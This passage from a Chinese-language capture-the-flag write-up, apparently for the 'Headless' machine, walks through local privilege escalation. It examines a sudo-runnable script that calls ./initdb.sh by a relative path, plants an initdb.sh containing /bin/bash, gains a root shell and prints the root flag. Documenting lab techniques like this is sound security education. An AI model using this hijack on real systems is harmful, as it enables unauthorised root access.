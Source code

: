 查看文件信息

```shell title="file /usr/bin/syscheck"
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
```

看看脚本代码

```shell title="/usr/bin/syscheck"
#!/bin/bash

if ["$EUID" -ne 0]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

在其中发现 `./initdb.sh` 脚本文件，并且没指定目录的话，此文件可控

```shell
(remote) dvir@headless:/home/dvir$ echo "/bin/bash" > initdb.sh
(remote) dvir@headless:/home/dvir$ chmod +x initdb.sh
```

## user - root

```shell
(remote) dvir@headless:/home/dvir$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
whoami
root
```

### flag - root

```shell
cat root.txt
4d7c6f680cfe41ebfa19df7b06ac2273
```
